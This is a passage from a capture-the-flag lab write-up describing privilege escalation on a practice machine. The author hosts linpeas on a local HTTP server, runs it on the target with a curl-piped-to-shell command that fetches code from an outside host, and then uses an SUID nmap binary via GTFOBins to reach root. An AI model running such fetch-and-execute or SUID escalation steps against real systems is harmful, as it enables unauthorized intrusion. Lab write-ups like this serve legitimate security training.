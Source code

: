 To escalate privelages on the machine, I quickly spun up a python server, staging the linpeas script.

```bash
cd /usr/share/peass/linpeas
python3 -m http.server 80
```

Back on the target machine, we can run linpeas with the following command:

```bash
curl 10.8.84.132:80/linpeas.sh | sh
```

The script then runs and will show us any privilege escalation paths. As expected linpeas found many ways of privilege escalation, but one that stood out was the SUID for Nmap.

![[Pasted image 20240120165814.png]]

From here we can use the GTFOBins resource and follow the steps provided:

![[Pasted image 20240120170018.png]]

We now have root!

![[Pasted image 20240120170047.png]]

The root directory holds the final flag needed for the room.

![[Pasted image 20240120170208.png]]

We finished the challenge and got root on the machine. :)

![[Pasted image 20240120202006.png]]